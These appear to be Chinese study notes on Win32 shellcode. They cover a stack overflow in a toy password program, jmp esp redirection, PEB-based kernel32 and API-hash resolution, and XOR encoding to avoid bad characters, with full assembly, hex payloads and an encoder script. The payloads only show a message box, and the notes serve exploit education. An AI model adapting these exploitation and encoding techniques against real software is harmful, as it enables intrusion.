

# shellcode Study

## shellcode与exploit

漏洞利用的过程就好像一枚导弹飞向目标的过程。导弹的设计者关注的是怎样计算飞行路线，锁定目标，最终把弹头精确地运载到目的地并引爆，而并不关心所承载的弹头到底是用来在地上砸一个坑的铅球，还是用来毁灭一个国家的核弹头；这就如同exploit关心的是怎样淹没返回地址，获得进程控制权，把EIP传递给shellcode 让其得到执行并发挥作用，而不关心shellcode到底是弹出一个消息框的恶作剧，还是用于格式化对方硬盘等等的恶意代码。


## 定位shellcode

### 固定栈地址

简单的例子

```c
#include "stdio.h"
#include "windows.h"
#include "stdlib.h"
#include "string.h"
#define PASSWORD "1234567"
int verify_password(char *password)
{
	int authenticated;
	char buffer[44];
	authenticated = strcmp(password,PASSWORD);
	strcpy(buffer,password);
	return authenticated;
}
int main(int argc, char* argv[])
{
	int valid_flag = 0;
	char password[1024];
	FILE * fp;
	//MessageBoxA(0,"test","test",0);
	if(!(fp = fopen("password.txt","rw+")))
	{
		exit(0);
	}
	fscanf(fp,"%s",password);
	valid_flag = verify_password(password);
	if(valid_flag)
	{
		printf("No!\n");
	}
	else
	{
		printf("Yes\n");
	}
	fclose(fp);
	getchar();
	return 0;
}
```


我们的数据将被strcpy拷贝到v3中，v3离栈底的距离是30h，这是一个32位的程序 如果我们需要覆盖掉返回地址，需要30h + 4h + 覆盖的返回数据（字节为单位），我们的返回地址就为v3在栈中的数据起始地址  ebp - 0x30 = 0x0012faec


找一下程序


```c
int main(int argc, char* argv[])
{
	__asm{
		xor ebx,ebx;
		push ebx;
		push 0x38373635; 	//将字符串压入栈中 将0也压入栈 相当于'\0'
		push 0x34333231;
		mov eax,esp;
		push ebx;			//从右往左将messageBoxA的参数入栈
		push eax;
		push eax;
		push ebx;
		mov eax,0x77d507ea;  // 调用messageBoxA 静态寻找的 在不同的电脑上不一样 如果程序开始aslr也会改变该地址
		call eax;
	}
	return 0;
}
//33DB53683536373868313233348BC453505053B8EA07D577FFD0
```

最终合成植入代码


```
33DB53683536373868313233348BC453505053B8EA07D577FFD09090909090909090909090909090909090909090909090909090ECFA1200
```


### 栈帧移位与 jmp esp

当我们用越界的字符完全控制返回地址后，需要将返回地址改写成shellcode在内存中的起始地址。在实际的漏洞利用过程中，由于动态链接库的装入和卸载等原因，Windows进程的函数栈帧很有可能会产生“移位”，即shellcode在内存中的地址是会动态变化的，因此将返回地址简单地覆盖成一个定值的做法往往不能让exploit奏效，要想使exploit不至于10次中只有2次能成功地运行shellcode，我们必须想出一种方法能够在程序运行时动态定位栈中的shellcode。


```
(1)用内存中任意一个jmp esp指令的地址覆盖函数返回地址，而不是原来用手工查出的shellcode起始地址直接覆盖。
(2)函数返回后被重定向去执行内存中的这条jmp esp指令,而不是直接开始执行shellcode。
(3)由于esp在函数返回时仍指向栈区（函数返回地址之后)，jmp esp指令被执行后，处理器会到栈区函数返回地址之后的地方取指令执行。
(4)重新布置shellcode。在淹没函数返回地址后，继续淹没一片栈空间。将缓冲区前边一段地方用任意数据填充，把 shellcode恰好摆放在函数返回地址之后。这样jmp esp指令执行过后会恰好跳进shellcode。
```



需要对jmp esp指令进行寻找

第一种办法 利用脚本寻找，jmp esp的机器码为0xffe4

```c
#include <stdio.h>
#include <windows.h>
#include <stdlib.h>
#define dll_name "user32.dll"
int main()
{
  BYTE *ptr;
  int position;
  HINSTANCE handle;
  BOOL done_flag = FALSE;
  handle = LoadLibrary(dll_name);
  ptr = (BYTE*)handle;
  for (position = 0; !done_flag; position++)
  {
    try
    {
      if (ptr[position] == 0xFF && ptr[position + 1] == 0xE4)
      {
        int address = (int)ptr + position;
        printf("OPCODE found at 0x%x\n", address);
      }
    }
    catch (...)
    {
      int address = (int)ptr + position;
      printf("END OF 0x%x\n", address);
      done_flag = true;
    }
  }
  getchar();
  return 0;
}
```

第二种在动调调试器中找到模块搜索即可


找到地址为0x77D29353，我们就可以利用它作为定位shellcode的“跳板”。

同时，我们可以在调用MessageBoxA函数之后调用exit函数解决无法正常退出的情况

可以借助工具dependency


也可以利用ida动调


都能得到exit函数的地址0x7c81cafa

shellcode源码：

```
int main(int argc, char* argv[])
{
	__asm{
		xor ebx,ebx;
		push ebx;
		push 0x38373635; 	//将字符串压入栈中 将0也压入栈 相当于'\0'
		push 0x34333231;
		mov eax,esp;
		push ebx;			//从右往左将messageBoxA的参数入栈
		push eax;
		push eax;
		push ebx;
		mov eax,0x77d507ea; // 调用messageBoxA 静态寻找的 在不同的电脑上不一样 如果程序开始aslr也会改变该地址
		call eax;			//messageBoxA(0,"12345678","12345678",0)
		push ebx;	
		mov eax,0x7c81cafa;	//调用exit函数 静态寻找的 在不同的电脑上不一样 如果程序开始aslr也会改变该地址
		call eax 			//exit(0)
	}
	return 0;
}
//33DB53683536373868313233348BC453505053B8EA07D577FFD053B8FACA817CFFD0
```

最终结合jmp esp


```
909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090905393D27733DB53683536373868313233348BC453505053B8EA07D577FFD053B8FACA817CFFD0909090909090
```


### 缓冲区的组织

我们将shellcode放在函数栈帧的附近，容易遭到破坏，当我们可以覆盖大量的内存地址时 可以利用大量的nop，我们控制eip落到其中就可以最终达到shellcode

出了jmp esp 其他寄存器也可以利用

常用跳转指令与机器码的对应

| 机器码(十六进制) | 对应的跳转指令 | 机器码(十六进制) | 对应的跳转指令 |
| ---------------- | -------------- | ---------------- | -------------- |
| FF E0            | JMP EAX        | FF D0            | CALL EAX       |
| FF E1            | JMP ECX        | FF D1            | CALL ECX       |
| FF E2            | JMP EDX        | FF D2            | CALL EDX       |
| FF E3            | JMP EBX        | FF D3            | CALL EBX       |
| FF E4            | JMP ESP        | FF D4            | CALL ESP       |
| FF E5            | JMP EBP        | FF D5            | CALL EBP       |
| FF E6            | JMP ESI        | FF D6            | CALL ESI       |
| FF E7            | JMP EDI        | FF D7            | CALL EDI       |

### 开发通用的shellcode

#### 定位API

​	Windows 的API是通过动态链接库中的导出函数来实现的，例如，内存操作等函数在kernel32.dll中实现；大量的图形界面相关的API 则在user32.dll中实现。Win_32平台下的shellcode使用最广泛的方法，就是通过从进程环境块中找到动态链接库的导出表，并搜索出所需的API 地址，然后逐一调用。
​	所有win_32程序都会加载ntdll.dll和kernel32.dll这两个最基础的动态链接库。如果想要在win_32平台下定位kernel32.dll中的API地址，可以采用如下方法。

```
(1)首先通过段选择字FS在内存中找到当前的线程环境块TEB。
(2)线程环境块偏移位置为 0x30 的地方存放着指向进程环境块PEB的指针。
(3)进程环境块中偏移位置为 0x0C 的地方存放着指向 PEB_LDR_DATA 结构体的指针，其中存放着已经被进程装载的动态链接库的信息。
(4)PEB_LDR_DATA 结构体偏移位置为 0x1C 的地方存放着指向模块初始化链表的头指针InInitializationOrderModuleList。
(5)模块初始化链表InInitializationOrderModuleList中按顺序存放着PE装入运行时初始化模块的信息，第一个链表结点是ntdll.dll，第二个链表结点就是kernel32.dll。
(6)找到属于kernel32.dll的结点后，在其基础上再偏移0x08就是kernel32.dll在内存中的加载基地址。
(7)从kernel32.dll的加载基址算起，偏移0x3C的地方就是其PE头。
(8)PE头偏移0x78的地方存放着指向函数导出表的指针。
(9)至此，我们可以按如下方式在函数导出表中算出所需函数的入口地址
导出表偏移0x1C处的指针指向存储导出函数偏移地址(RVA)的列表。导出表偏移0x20处的指针指向存储导出函数函数名的列表。
函数的RVA地址和名字按照顺序存放在上述两个列表中,我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA。
获得RVA后，再加上前边已经得到的动态链接库的加载基址，就获得了所需API此刻在内存中的虚拟地址，这个地址就是我们最终在shellcode中调用时需要的地址。
```


### 结构

```c
TEB结构一般位于fs:[0]的位置
typedef struct _NT_TEB
{
    NT_TIB Tib;                         // 00h
    PVOID EnvironmentPointer;           // 1Ch
    CLIENT_ID Cid;                      // 20h
    PVOID ActiveRpcInfo;                // 28h
    PVOID ThreadLocalStoragePointer;    // 2Ch
    PPEB Peb;                           // 30h          <--
    ULONG LastErrorValue;               // 34h
    ULONG CountOfOwnedCriticalSections; // 38h
    PVOID CsrClientThread;              // 3Ch
    PVOID Win32ThreadInfo;              // 40h
    ULONG Win32ClientInfo[0x1F];        // 44h
    PVOID WOW32Reserved;                // C0h
    ULONG CurrentLocale;                // C4h
    ULONG FpSoftwareStatusRegister;     // C8h
    PVOID SystemReserved1[0x36];        // CCh
    PVOID Spare1;                       // 1A4h
    LONG ExceptionCode;                 // 1A8h
    ULONG SpareBytes1[0x28];            // 1ACh
    PVOID SystemReserved2[0xA];         // 1D4h
    GDI_TEB_BATCH GdiTebBatch;          // 1FCh
    ULONG gdiRgn;                       // 6DCh
    ULONG gdiPen;                       // 6E0h
    ULONG gdiBrush;                     // 6E4h
    CLIENT_ID RealClientId;             // 6E8h
    PVOID GdiCachedProcessHandle;       // 6F0h
    ULONG GdiClientPID;                 // 6F4h
    ULONG GdiClientTID;                 // 6F8h
    PVOID GdiThreadLocaleInfo;          // 6FCh
    PVOID UserReserved[5];              // 700h
    PVOID glDispatchTable[0x118];       // 714h
    ULONG glReserved1[0x1A];            // B74h
    PVOID glReserved2;                  // BDCh
    PVOID glSectionInfo;                // BE0h
    PVOID glSection;                    // BE4h
    PVOID glTable;                      // BE8h
    PVOID glCurrentRC;                  // BECh
    PVOID glContext;                    // BF0h
    NTSTATUS LastStatusValue;           // BF4h
    UNICODE_STRING StaticUnicodeString; // BF8h
    WCHAR StaticUnicodeBuffer[0x105];   // C00h
    PVOID DeallocationStack;            // E0Ch
    PVOID TlsSlots[0x40];               // E10h
    LIST_ENTRY TlsLinks;                // F10h
    PVOID Vdm;                          // F18h
    PVOID ReservedForNtRpc;             // F1Ch
    PVOID DbgSsReserved[0x2];           // F20h
    ULONG HardErrorDisabled;            // F28h
    PVOID Instrumentation[0x10];        // F2Ch
    PVOID WinSockData;                  // F6Ch
    ULONG GdiBatchCount;                // F70h
    ULONG Spare2;                       // F74h
    ULONG Spare3;                       // F78h
    ULONG Spare4;                       // F7Ch
    PVOID ReservedForOle;               // F80h
    ULONG WaitingOnLoaderLock;          // F84h
    PVOID StackCommit;                  // F88h
    PVOID StackCommitMax;               // F8Ch
    PVOID StackReserve;                 // F90h
    PVOID MessageQueue;                 // ???
}


typedef struct _PEB
{
    UCHAR InheritedAddressSpace;                     // 00h
    UCHAR ReadImageFileExecOptions;                  // 01h
    UCHAR BeingDebugged;                             // 02h    
    UCHAR Spare;                                     // 03h
    PVOID Mutant;                                    // 04h
    PVOID ImageBaseAddress;                          // 08h
    PPEB_LDR_DATA Ldr;                               // 0Ch  <--------
    PRTL_USER_PROCESS_PARAMETERS ProcessParameters;  // 10h
    PVOID SubSystemData;                             // 14h
    PVOID ProcessHeap;                               // 18h
    PVOID FastPebLock;                               // 1Ch
    PPEBLOCKROUTINE FastPebLockRoutine;              // 20h
    PPEBLOCKROUTINE FastPebUnlockRoutine;            // 24h
    ULONG EnvironmentUpdateCount;                    // 28h
    PVOID* KernelCallbackTable;                      // 2Ch
    PVOID EventLogSection;                           // 30h
    PVOID EventLog;                                  // 34h
    PPEB_FREE_BLOCK FreeList;                        // 38h
    ULONG TlsExpansionCounter;                       // 3Ch
    PVOID TlsBitmap;                                 // 40h
    ULONG TlsBitmapBits[0x2];                        // 44h
    PVOID ReadOnlySharedMemoryBase;                  // 4Ch
    PVOID ReadOnlySharedMemoryHeap;                  // 50h
    PVOID* ReadOnlyStaticServerData;                 // 54h
    PVOID AnsiCodePageData;                          // 58h
    PVOID OemCodePageData;                           // 5Ch
    PVOID UnicodeCaseTableData;                      // 60h
    ULONG NumberOfProcessors;                        // 64h
    ULONG NtGlobalFlag;                              // 68h    
    UCHAR Spare2[0x4];                               // 6Ch
    LARGE_INTEGER CriticalSectionTimeout;            // 70h
    ULONG HeapSegmentReserve;                        // 78h
    ULONG HeapSegmentCommit;                         // 7Ch
    ULONG HeapDeCommitTotalFreeThreshold;            // 80h
    ULONG HeapDeCommitFreeBlockThreshold;            // 84h
    ULONG NumberOfHeaps;                             // 88h
    ULONG MaximumNumberOfHeaps;                      // 8Ch
    PVOID** ProcessHeaps;                            // 90h
    PVOID GdiSharedHandleTable;                      // 94h
    PVOID ProcessStarterHelper;                      // 98h
    PVOID GdiDCAttributeList;                        // 9Ch
    PVOID LoaderLock;                                // A0h
    ULONG OSMajorVersion;                            // A4h
    ULONG OSMinorVersion;                            // A8h
    ULONG OSBuildNumber;                             // ACh
    ULONG OSPlatformId;                              // B0h
    ULONG ImageSubSystem;                            // B4h
    ULONG ImageSubSystemMajorVersion;                // B8h
    ULONG ImageSubSystemMinorVersion;                // C0h
    ULONG GdiHandleBuffer[0x22];                     // C4h
    PVOID ProcessWindowStation;                      
}

typedef struct _PEB_LDR_DATA
{
　ULONG Length; // +0x00
　BOOLEAN Initialized; // +0x04
　PVOID SsHandle; // +0x08
　LIST_ENTRY InLoadOrderModuleList; // +0x0c
　LIST_ENTRY InMemoryOrderModuleList; // +0x14
　LIST_ENTRY InInitializationOrderModuleList;// +0x1c
} PEB_LDR_DATA,*PPEB_LDR_DATA; // +0x24
InLoadOrderModuleList;                模块加载顺序
InMemoryOrderModuleList;              模块在内存中的顺序
InInitializationOrderModuleList;     模块初始化装载顺序
typedef struct _LIST_ENTRY {
   struct _LIST_ENTRY *Flink;
   struct _LIST_ENTRY *Blink;
} LIST_ENTRY, *PLIST_ENTRY, *RESTRICTED_POINTER PRLIST_ENTRY;
这个双链表指向进程装载的模块，结构中的每个指针，指向了一个LDR_DATA_TABLE_ENTRY 的结构

typedef struct LDR_DATA_TABLE_ENTRY
{
+0x000 		LIST_ENTRY InLoadOrderModuleList;
+0x008    	LIST_ENTRY InMemoryOrderModuleList;
+0x010    	LIST_ENTRY InInitializationOrderModuleList;
+0x018    	void* DllBase;				//模块基址
+0x01c    	void* EntryPoint;			//模块入口
+0x020    	ULONG SizeOfImage;			//模块大小
+0x024    	UNICODE_STRING FullDllName;	//包含路径的模块名
+0x02c    	UNICODE_STRING BaseDllName;	//不包含路径的模块名
    	ULONG Flags;
    	SHORT LoadCount;
    	SHORT TlsIndex;
    	HANDLE SectionHandle;
    	ULONG CheckSum;
    	ULONG TimeDateStamp;
}LDR_DATA_TABLE_ENTRY;
  我们都知道，以前在xp下写shellcode，通用获得kernel32基址代码：
   mov ebx, fs:[ 0x30 ]       // 获得PEB
   mov ebx, [ ebx + 0x0C ]    // 获得PEB_LDR_DATA
   mov ebx, [ ebx + 0x1C ]    // InitializationOrderModuleList 第一项
   mov ebx, [ ebx ]           // InitializationOrderModuleList 第二项
   mov ebx, [ ebx + 0x8 ]    // 获得完整的路径地址
     但是这段代码放到win7就不通用， 为什么？前三句没问题，首先是获得PEB基地址，然后在偏移0X0C处获得LDR，然后再取得LDR的偏移 0x1C处，获得InInitializationOrderModuleList加载的下一个模块基址，恰恰问题是出在第5句上，mov ebx,[ebx]，此时，ebx中的值按照前面所述，应该是第二个LDR_DATA_TABLE_ENTRY，可是根据之前的观察，在win7的环境之下，InInitializationOrderModuleList第二个LDR_DATA_TABLE_ENTRY不是kernel32了，而是，KERNELBASE了(见图2)，kernel32排到了第三个了。所以，若要获取win7下kernel32的基址，只需将之前的代码略加修改：
   mov ebx, fs:[ 0x30 ]      // 获得PEB
   mov ebx, [ ebx + 0x0C ]   // 获得PEB_LDR_DATA
   mov ebx, [ ebx + 0x1C ]   // InitializationOrderModuleList第一项
   mov ebx, [ ebx ]          // InitializationOrderModuleList第二项
   mov ebx, [ ebx ]          // InitializationOrderModuleList第三项
   mov ebx, [ ebx + 0x8 ]   
       
mov ebx, fs:[ 0x30 ]       // 获得PEB
mov ebx, [ ebx + 0x0C ]    // 获得PEB_LDR_DATA
mov ebx, [ ebx + 0x0C ]    // InLoadOrderModuleList第一项
mov ebx, [ ebx ]           // InLoadOrderModuleList第二项
mov ebx, [ ebx ]           // InLoadOrderModuleList第三项
mov ebx, [ ebx + 0x18 ]    // 获得完整的路径地址，此时偏移0x18
```

调试shellcode的方法


```c
char shellcode[]="\x66\x81\xEC\x40\x04......";
void main()
{
    __asm{
        lea eax,shellcode;
        push eax;
        ret
    }
}
```

#### 动态定位API地址的通用shellcode

针对上面检测password.txt的二进制文件，这次利用自动定位API的方式去实现。为了实现弹出消息框，同时正常退出，需要如下API

```
(1) MessageBoxA 位于 user32.dll 中，用于弹出消息框。
(2) ExitProcess 位于 kernel32.dll 中，用于正常退出程序。
(3) LoadLibraryA 位于 kernel32.dll 中。并不是所有的程序都会装载user32.dll，所以在我们调用 MessageBoxA 之前，应该先使用LoadLibrary("user32.dll")装载其所属的动态链接库。
```

由于shellcode最终是要放进缓冲区的，为了让 shellcode更加通用，能被大多数缓冲区容纳，我们总是希望shellcode尽可能短。因此，在函数名导出表中搜索函数名的时候，一般情况下并不会用“MessageBoxA”这么长的字符串去进行直接比较。通常情况下，我们会对所需的API函数名进行hash运算，在搜索导出表时对当前遇到的函数名也进行同样的hash，这样只要比较hash就能判定是不是我们所需的API了。虽然这种搜索方法需要引入额外的hash算法，但是可以节省出存储函数名字符串的代码。

```
#include "stdio.h"
#include "windows.h"
#define name "MessageBoxA"
DWORD GetHash(char *fun_name)
{
	DWORD digest = 0;
	while(*fun_name)
	{
		digest = ((digest<<25) | (digest>>7));
		digest+= *fun_name;
		fun_name++;
	}
	return digest;
}
int main(int argc, char* argv[])
{
	DWORD hash;
	hash = GetHash(name);
	printf("%s of hash is %.8x\n",name,hash);
	getchar();
	return 0;
}
```

得到我们需要的hash

MessageBoxA 	  0x1e380a6a    
ExitProcess	 	  0x4fd18963     
LoadLibraryA 	   0x0c917432     

```c
__asm{
	CLD; //清除DF标志
    //函数校准hash值存储
	push 0x1e380a6a;  	//压入MessageBoxA
	push 0x4fd18963;  	//压入ExitProcess
	push 0x0c917432;	//压入LoadLibraryA
	mov esi,esp;		//esi=esp,指向堆栈中存放LoadLibraryA的地址
	lea edi,[esi-0xc];
	//抬高栈空间
	xor ebx,ebx;	
	mov bh,0x04;
	sub esp,ebx;
	//将user32字符压入栈	
	mov bx,0x3233;  
    push ebx;
    push 0x72657375;
    push esp;
    xor edx,edx;
    //寻找kernel32.dll的基址
    mov ebx, fs:[edx+0x30];	//PEB
    mov ecx,[ebx+0x0c];		//PEB->PEB_LDR_DATA
    mov ecx,[ecx+0x1c];		//PEB_LDR_DATA->InInitializationOrderModuleList
    mov ecx,[ecx];			//进入链表第一个就是ntdll.dll
    mov ebp,[ecx+0x08];		//ebp= kernel32.dll的基地址
    
    find_lib_functions:
   	lodsd;					//eax=[ds*10H+esi],读出来是LoadLibraryA的Hash
    cmp eax,0x1e380a6a;		//与MessageBoxA的Hash进行比较
    jne find_functions;		//不相等就去寻找
    xchg eax,ebp;			//保存hash
    call [edi-0x8];			//LoadLibraryA
    xchg eax,ebp;			//恢复hash 使用user32.dll的基址代替kernel32.dll的基址
    
    find_functions:
    pushad;					//保护寄存器
    mov eax,[ebp+0x3c];		//PE头
    mov ecx,[ebp+eax+0x78];	//导出表的指针偏移
    add ecx,ebp;			//ecx = 导出表的指针地址偏移 + dll基址
    mov ebx,[ecx+0x20];		//ebx = 导出表的函数名字列表偏移
    add ebx,ebp;			//ebx = 导出表的函数名字列表偏移 + dll基址
    xor edi,edi;			
    
    next_function_loop:
    inc edi;
    mov esi,[ebx+edi*4];	//从函数名字列表读取具体函数名字的偏移
   	add esi,ebp;			//esi = 具体函数名字的偏移 + dll基址
    cdq;    				//扩充
    
    hash_loop:
    movsx eax,byte ptr[esi];
    cmp al,ah;
    jz compare_hash;
    ror edx,7;
    add edx,eax;
    inc esi;
    jmp hash_loop;
    
    compare_hash:
    cmp edx,[esp+0x1c];
    jnz next_function_loop;
    mov ebx,[ecx+0x24];
    add ebx,ebp;
    mov di,[ebx+2*edi];
    mov ebx,[ecx+0x1C];
	add ebx,ebp;
	add ebp,[ebx+4*edi];
	xchg eax,ebp;
	pop edi;
	stosd;
	push edi; 
	popad;
	cmp eax,0x1e380a6a;
	jne find_lib_functions;
        
    function_call:
	xor ebx,ebx;
	push ebx; //cut string
	push 0x74736577;
	push 0x6c696166; //push failwest
	mov eax,esp;
	push ebx;
	push eax;
	push eax;
	push ebx;
	call [edi-0x04]; //call MessageBoxA
	push ebx;
	call [edi-0x08]; //call ExitProcess
	nop;
	nop;
	nop;
	nop;
}
//90909090FC686A0A381E686389D14F683274910C8BF48D7EF433DBB7042BE366BB33325368757365725433D2648B5A308B4B0C8B491C8B098B6908AD3D6A0A381E750595FF57F895608B453C8B4C057803CD8B592003DD33FF478B34BB03F5990FBE063AC47408C1CA0703D046EBF13B54241C75E48B592403DD668B3C7B8B591C03DD032CBB955FAB57613D6A0A381E75A933DB53683536373868313233458BC453505053FF57FC53FF57F890909090
```

但是无法应用到这题 因为0x09 0x0a 0x0b 0x0c 0x0d 0x1a 0x20字符在被读取的时候会被截断，所以接下来需要我们使用一些特殊的shellcode的编码解决这些问题。


```c
// ConsoleApplication1.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <stdio.h>
#include<windows.h>

typedef DWORD(WINAPI* PGETPROCADDRESS) (HMODULE hModule, LPCSTR lpProcName);
typedef int (WINAPI* PMESSAGEBOX) (HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);
typedef HMODULE(WINAPI* PLOADLIBRARY) (LPCTSTR lpFileName);

typedef struct UNICODE_STRING
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR Buffer;
}UNICODE_STRING;

typedef struct PEB_LDR_DATA {
    DWORD Length;
    BYTE initialized;
    PVOID SsHandle;
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    VOID* EntryInProgress;
}PEB_LDR_DATA;

typedef struct LDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    void* DllBase;
    void* EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    SHORT LoadCount;
    SHORT TlsIndex;
    HANDLE SectionHandle;
    ULONG CheckSum;
    ULONG TimeDateStamp;
}LDR_DATA_TABLE_ENTRY;

void ShellCode()
{
    LDR_DATA_TABLE_ENTRY* pPLD = NULL, * pBeg = NULL;
    PGETPROCADDRESS pGetProcAddress = NULL;
    PMESSAGEBOX pMessageBox = NULL;
    PLOADLIBRARY pLoadLibrary = NULL;
    WORD* pFirst = NULL, * pLast = NULL;
    DWORD ret = 0, i = 0;
    DWORD dwKernelBase = 0;

    char szKernel32[] = { 'k',0,'e',0,'r',0,'n',0,'e',0,'l',0,'3',0,'2',0,'.',0,'d',0,'l',0,'l',0,0,0 };
    char szUser32[] = { 'U','S','E','R','3','2','.','d','l','l',0 };
    char szGetProcAddr[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s',0 };
    char szLoadLibrary[] = { 'L','o','a','d','L','i','b','r','a','r','y','A',0 };
    char szMessageBox[] = { 'M','e','s','s','a','g','e','B','o','x','A',0 };

    __asm {
        mov eax, fs: [0x30]
        mov eax, [eax + 0x0c]
        add eax, 0x0c
        mov pBeg, eax
        mov eax, [eax]
        mov pPLD, eax
    }
    // 遍历找到kernel32.dll
    while (pPLD != pBeg)
    {
        pLast = (WORD*)pPLD->BaseDllName.Buffer;
        pFirst = (WORD*)szKernel32;
        while (*pFirst && (*pFirst - 32 == *pLast || *pFirst == *pLast))
        {
            pFirst++, pLast++;
        }
        if (*pFirst == *pLast)
        {
            dwKernelBase = (DWORD)pPLD->DllBase;
            break;
        }
        pPLD = (LDR_DATA_TABLE_ENTRY*)pPLD->InLoadOrderModuleList.Flink;
    }

    // 遍历kernel32.dll的导出表，找到GetProcAddr函数地址

    IMAGE_DOS_HEADER* pIDH = (IMAGE_DOS_HEADER*)dwKernelBase;
    IMAGE_NT_HEADERS* pINGS = (IMAGE_NT_HEADERS*)((DWORD)dwKernelBase + pIDH->e_lfanew);
    IMAGE_EXPORT_DIRECTORY* pIED = (IMAGE_EXPORT_DIRECTORY*)((DWORD)dwKernelBase +
        pINGS->OptionalHeader.
        DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

    DWORD* pAddOfFun_Raw = (DWORD*)((DWORD)dwKernelBase + pIED->AddressOfFunctions);
    WORD* pAddOfOrd_Raw = (WORD*)((DWORD)dwKernelBase + pIED->AddressOfNameOrdinals);
    DWORD* pAddOfNames_Raw = (DWORD*)((DWORD)dwKernelBase + pIED->AddressOfNames);
    DWORD dwCnt = 0;

    char* pFinded = NULL, * pSrc = szGetProcAddr;
    for (; dwCnt < pIED->NumberOfNames; dwCnt++)
    {
        pFinded = (char*)((DWORD)dwKernelBase + pAddOfNames_Raw[dwCnt]);
        while (*pFinded && *pFinded == *pSrc)
        {
            pFinded++; pSrc++;
        }
        if (*pFinded == *pSrc)
        {
            pGetProcAddress = (PGETPROCADDRESS)((DWORD)dwKernelBase + pAddOfFun_Raw[pAddOfOrd_Raw[dwCnt]]);
            break;
        }
        pSrc = szGetProcAddr;
    }
    // 有了GetProcAddr 可以获得任何api
    pLoadLibrary = (PLOADLIBRARY)pGetProcAddress((HMODULE)dwKernelBase, szLoadLibrary);
    pMessageBox = (PMESSAGEBOX)pGetProcAddress(pLoadLibrary((LPCTSTR)szUser32), szMessageBox);

    // 使用函数
    char szTitle[] = { 'S','h','e','l','l','C','o','d','e',0 };
    char szContent[] = { 0x48,0x65,0x6c,0x6c,0x6f,0x20,0x57,0x6f,0x72,0x6c,0x64,0x20,0x21,0 };
    pMessageBox(NULL, (LPCTSTR)szContent, (LPCTSTR)szTitle, 0);

}


int main()
{
    ShellCode();
    return 0;
}
```

## shellcode的编码技术

我们可以先专心完成shellcode的逻辑，然后使用编码技术对shellcode进行编码，使其内容达到限制的要求，最后再精心构造十几个字节的解码程序，放在 shellcode开始执行的地方。


这里利用暴力的异或找到能用shellcode

```python
c = [0xFC,0x68,0x6A,0x0A,0x38,0x1E,0x68,0x63,0x89,0xD1,0x4F,0x68,0x32,0x74,0x91,0x0C,0x8B,0xF4,0x8D,0x7E,0xF4,0x33,0xDB,0xB7,0x04,0x2B,0xE3,0x66,0xBB,0x33,0x32,0x53,0x68,0x75,0x73,0x65,0x72,0x54,0x33,0xD2,0x64,0x8B,0x5A,0x30,0x8B,0x4B,0x0C,0x8B,0x49,0x1C,0x8B,0x09,0x8B,0x69,0x08,0xAD,0x3D,0x6A,0x0A,0x38,0x1E,0x75,0x05,0x95,0xFF,0x57,0xF8,0x95,0x60,0x8B,0x45,0x3C,0x8B,0x4C,0x05,0x78,0x03,0xCD,0x8B,0x59,0x20,0x03,0xDD,0x33,0xFF,0x47,0x8B,0x34,0xBB,0x03,0xF5,0x99,0x0F,0xBE,0x06,0x3A,0xC4,0x74,0x08,0xC1,0xCA,0x07,0x03,0xD0,0x46,0xEB,0xF1,0x3B,0x54,0x24,0x1C,0x75,0xE4,0x8B,0x59,0x24,0x03,0xDD,0x66,0x8B,0x3C,0x7B,0x8B,0x59,0x1C,0x03,0xDD,0x03,0x2C,0xBB,0x95,0x5F,0xAB,0x57,0x61,0x3D,0x6A,0x0A,0x38,0x1E,0x75,0xA9,0x33,0xDB,0x53,0x68,0x35,0x36,0x37,0x38,0x68,0x31,0x32,0x33,0x45,0x8B,0xC4,0x53,0x50,0x50,0x53,0xFF,0x57,0xFC,0x53,0xFF,0x57,0xF8,0x90]
d = c
check = 0
for i in range(0,255):
    if i==9 or i==10 or i==11 or i==12 or i==13 or i==0x1a or i==0x20:
        pass
    check = 0
    d = c
    for j in range(len(c)):
        d[j] = eval(hex(d[j]^i))

        if d[j]==0x9 or d[j]==0xa or d[j]==0xb or d[j]==0xc or d[j]==0xd or d[j]==0x1a or d[j]==0x20 or(j!=len(c)-1 and d[j]==0x90):
            check = 1
            break

    if check == 0:
        print(i)
        for x in d:
            e = ""
            if(len(hex(x)[2:])==1):
                e = '0'+hex(x)[2:]
            else:
                e = hex(x)[2:]
            print(e,end="")
            #print(hex(x)[2:],end=" ")
        print("")
```

解码指令

```c
__asm{
	lea eax,[eip+15h]; 	//越过解码指令，记录shellcode的起始地址
    xor ecx,ecx;
    
    decode_loop:
    mov bl,[eax+ecx];
    xor bl,0x92;	//key为0x92
    mov [eax+ecx],bl;
    inc ecx;
    cmp bl,0x90;	//shellcode末尾利用0x90作为结束符
    jne decode_loop;
}
```

组合shellcode 可以避免fscanf读不进去的问题


## 参考资料

《0day安全：软件漏洞分析技术》

TEB和PEB 学习资料 https://liwz11.com/blog/archives/402.html